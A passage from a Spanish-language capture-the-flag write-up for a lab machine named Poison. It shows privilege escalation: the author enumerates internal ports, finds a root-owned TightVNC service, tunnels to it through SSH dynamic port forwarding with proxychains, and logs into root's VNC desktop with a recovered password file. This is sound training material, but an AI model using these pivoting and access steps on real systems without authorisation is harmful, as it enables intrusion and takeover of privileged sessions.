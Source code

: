 Siguiendo la enumeración procedemos a listar puertos que estén abiertos de manera interna

```bash
charix@Poison:~ % netstat -na -p tcp
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0     44 10.129.1.254.22        10.10.14.24.35014      ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```

Detectamos puertos 5801 y 5901 abiertos internamente. Tras buscar para qué se utilizan estos puertos descubrimos que se utilizan para servicio VNC. Adicionalmente listamos procesos que están ejecutándose en la máquina víctima y localizamos un proceso `tightvnc` ejecutado por root

```bash
root    608   0.0  0.9  23620  8872 v0- I    09:28     0:00.04 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 1
```

Como no tenemos acceso directamente a estos puertos utilizaremos la herramienta `proxychains` para llegar a estos puertos por Dynamic Port Forwarding. Primero debemos agregar `scoks4 127.0.0.1 1080` línea al final del archivo `/etc/proxychains.conf`. Nos volvemos a conectar por ssh con el usuario `charix` per esta vez agregandole `-D 1080` 

```bash
❯ ssh charix@10.129.1.254 -D 1080
```
Con proxychains y la heramienta `vncviewer` ya podemos conectarnos al servicio VNC proporcionando el archivo `secret` descomprmido anteriormente

```bash
❯ proxychains vncviewer -passwd secret 127.0.0.1:5901
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:5901-<><>-OK
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
```
